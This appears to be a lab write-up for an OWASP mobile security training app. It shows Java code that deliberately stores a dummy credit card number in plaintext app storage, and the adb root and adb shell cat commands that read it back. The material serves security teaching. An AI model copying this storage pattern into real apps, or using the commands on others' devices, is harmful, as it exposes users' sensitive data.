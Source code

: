 ## OMTG-DATAST-001-INTERNALSTORAGE 

> app/src/main/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_InternalStorage.java

```java
FileOutputStream fileOutputStream;

try {

	fileOutputStream = openFileOutput("test_file", 0);

} catch (FileNotFoundException e) {

	e.printStackTrace();
	fileOutputStream = null;
	
}

fileOutputStream.write("Credit Card Number is 1234 4321 5678 8765".getBytes());

fileOutputStream.close();
```

Exploit:

- `$ adb root`

- `$ adb shell cat /data/data/sg.vp.owasp_mobile.omtg_android/files/test_file`

```
Credit Card Number is 1234 4321 5678 8765
```
